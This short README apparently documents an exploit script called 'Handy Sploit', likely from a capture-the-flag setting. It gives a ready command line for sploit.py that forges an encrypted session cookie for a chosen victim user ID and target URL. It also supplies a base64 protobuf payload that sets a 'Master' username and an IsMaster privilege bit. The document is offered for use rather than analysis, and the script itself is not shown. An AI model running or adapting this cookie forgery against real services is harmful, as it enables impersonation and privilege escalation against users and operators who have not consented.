 # Handy Sploit

## How To Use

```
./sploit.py \
  --message CgZNYXN0ZXIQAQ== \
  --user_id ${ID_TO_HACK} \
  --url "${SERVICE_HOST}/profile/picture?id=${SOME_ID}&size=1024"
```

- `message`: message to encrypt _without_ control sum and padding.
- `user_id`: ID of the user to hack (UUID in text format).
- `url`: URL to hack, only cookie will be altered when making a request to this URL.

`CgZNYXN0ZXIQAQ==` is a serialized proto with a `Master` username and `IsMaster` bit set to true.